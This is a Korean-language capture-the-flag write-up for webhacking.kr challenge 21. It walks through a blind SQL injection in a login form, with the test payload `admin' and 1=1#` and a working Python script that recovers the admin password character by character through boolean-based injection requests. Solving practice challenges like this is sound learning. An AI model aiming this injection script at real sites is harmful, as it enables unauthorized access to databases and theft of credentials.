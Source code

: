 #21
==

이번 문제는 blind sql 문제라는 것을 들어가자마자 알 수 있다.

![]()

id와 pw가 지정된 값이 아니면 `Result : login fail`가 나온다.

id 값에 `admin' and 1=1#`을 넣어봤더니 다음과 같은 결과값이 나왔다.  
`Result : wrong password`

따라서 이 결과 값을 이용하면 pw를 알아낼 수 있다. 

파이썬 코드를 찾은 다음 아래와 같이 21번 문제에 맞게 수정해주었다.

```
import requests

answer= ""

for i in range(1,37):
    for j in range(32,127):
        url = "https://webhacking.kr/challenge/bonus-1/index.php?id=admin' and ascii(substr(pw,%d,1)) = %d-- &pw=1" %(i,j)
        cookies={
            'PHPSESSID' : 'mmfd82ft16qtijkgfutd4h2cmd'
        }
        res = requests.get(url,cookies=cookies)
        if res.text.find('wrong password') != -1:
            answer=answer+chr(j)
            print(answer)
            break
        else:
            continue
            
print('정답')
print(answer)
```

파이썬 코드를 해석해보면 id 값에 pw를 1칸씩 잘라서 아스키코드값 32부터 127까지 다 비교해본다.  
만약 참값이 나오면 결과는 `Result : wrong password`가 나오게 되므로 이 값이 나오는 코드값을 문자로 변환해 answer에 저장해준다.

그리고 마지막에 answer를 출력해주는 간단한 코드이다.

이런식으로 간단하게 pw값을 구해보면 pw값이 `there_is_no_rest_for_the_white_angel`임을 알 수 있다.
